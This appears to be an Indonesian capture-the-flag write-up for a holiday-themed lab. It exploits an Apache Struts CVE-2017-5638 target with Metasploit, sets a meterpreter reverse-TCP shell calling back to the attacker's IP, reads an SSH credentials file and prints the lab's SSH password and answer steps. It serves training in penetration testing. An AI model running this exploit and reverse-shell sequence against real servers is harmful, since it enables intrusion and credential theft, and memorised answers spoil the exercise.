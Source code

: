 start mesin untuk bisa mendapatkan IP mesin.

<br>Q1:Compromise the web server using Metasploit. What is flag1?
<br>Q2:Now you've ompormised the web server, get onto the main system. What is Santa's SSH password?
<br>Q3:Who is on line 148 of the naughty list?
<br>Q4:Who is on line 52 of the nice list?

ssh santa:rudolphrednosedreindeer
find / 2>/dev/null | grep -i "flag1"

<br>A1:
<br>pertama gunakan `nmap` untuk scanning port yang terbuka dengan `nmap <IP> -sV -A`,
sembari menunggu proses scanning, kita bisa sambil scanning vuln dengan `nikto` dengan cara
`nikto -url http://<IP>`. hasil dari nmap akan seperti berikut
```shell
...
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 3d:70:ad:ec:3d:bd:60:79:3d:08:55:aa:ae:2e:0b:2d (RSA)
|   256 06:ff:ee:df:16:2d:b1:f1:6c:fe:59:42:c9:94:be:d2 (ECDSA)
|_  256 d2:ae:5c:bc:57:30:9a:b3:b1:d5:38:12:79:10:c9:63 (ED25519)
80/tcp  open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-title: Santa Naughty and Nice Tracker
|_Requested resource was showcase.action
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
...
```
sedangkan hasil nikto
```
...
+ /: Uncommon header 'nikto-added-cve-2017-5638' found, with contents: 42.
+ /: Site appears vulnerable to the 'strutshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
+ /index.action: Site appears vulnerable to the 'strutshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
+ /login.action: Site appears vulnerable to the 'strutshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
...
```
dari hasil scan nikto, dapat dilihat bahwa terdapat vuln dengan nama "strutshock". maka
kita bisa memulai metasploit console dengan `msfconsole`. setelah itu kita search vuln nya
```shell
msfconsole> search strut
```
selanjutnya pilih `exploit/multi/http/struts2_content_type_ognl`, karena pada waktu itu
menurut [write-up](https://samanthactf.medium.com/tryhackme-advent-of-cyber-day-10-metasploit-a-ho-ho-ho-251ac500528d)
ini, exploit tersebut merupakan yang paling terbaru. selanjutnya kita set beberapa hal
yang diperlukan, dengan melihatnya dengan command `options`.
beberapa hal yang perlu di set adalah
- `set RHOSTS <IP Target>`
- `set RPORT <PORT HTTP Target>`
- `set LHOSTS <IP tun0 kita>`
- `set TARGETURI <IP:PORT HTTP/showcase.action>`
- `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
setelah semua itu di set, maka kita bisa `run` atau `exploit`.
setelahnya, akan terbuat session baru, lalu kita aktifkan shell dengan command `shell`.
selanjutnya kita dapat mencari flag dengan cara
```
find / 2>/dev/null | grep -i "flag1"
```
setelah itu kita lakukan `cat` pada flag.

<br>A2:
<br>setelah flag ditemukan, kita selanjutnya mencari password dari SSH milik Santa. kita dapat
cek di home dir dengan `ls /home/` dan akan ditemukan user santa. selanjutnya kita dapat
`ls /home/santa/`. setelah ketemu credentials, kita dapat melakukan `cat ssh-creds.txt`
agar dapat melihat isinya. kita keep isinya, dan kita gunakan untuk login ke ssh dengan cara
```
ssh santa@<IP target> -p 22
```
dan masukkan password yang didapat dari file `ssh-creds.txt` tadi.


<br>A3:
<br>setelah tersambung, kita dapat lakukan `ls`. untuk mencari value dari baris yang spesifik,
kita dapat gunakan `sed`, jadi
```
sed '148q;d' naughty_list.txt
```

<br>A4:
<br>kita dapat gunakan cara yang sama dengan cara
```
sed '52q;d' nice_list.txt
```

